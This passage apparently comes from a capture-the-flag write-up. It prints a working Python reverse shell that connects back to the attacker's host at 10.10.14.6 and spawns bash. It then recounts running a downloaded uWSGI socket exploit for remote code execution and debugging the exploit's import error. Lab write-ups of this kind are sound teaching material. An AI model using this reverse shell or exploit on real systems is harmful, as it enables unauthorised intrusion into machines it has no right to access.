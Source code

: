 To get a shell, I turned a typical Python reverse shell into a `.py`
file, and moved it to the container just like above.



    #!/usr/bin/env python

    import os
    import pty
    import socket
    import subprocess

    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.6",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")



I tested it as my current user to verify that it could connect back to
my Kali box, and it could.

#### Get RCE

I downloaded `uwsgi_exp.py` from GitHub, uploaded it, and ran it, but it
fails.



    qtc@aeb4525789d8:~$ python /dev/shm/.d.py -m unix -u /tmp/uwsgi.socket -c 'id > /tmp/d'
    [*]Sending payload.
    Traceback (most recent call last):
      File ".t.py", line 146, in <module>
        main()
      File ".t.py", line 143, in main
        print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))
      File ".t.py", line 110, in curl
        return ask_uwsgi(addr_and_port, mode, var)
      File ".t.py", line 77, in ask_uwsgi
        s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
      File ".t.py", line 26, in pack_uwsgi_vars
        pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
      File ".t.py", line 18, in sz
        if sys.version_info[0] == 3: import bytes
    ModuleNotFoundError: No module named 'bytes'



I opened a Python shell and played with it, and found that without
importing `bytes`, it's already there:



    qtc@aeb4525789d8:~$ python
    Python 3.7.6 (default, Feb  2 2020, 09:11:24) 
    [GCC 8.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> h = 'abcd'
    >>> bytes.fromhex(h)
    b'\xab\xcd'
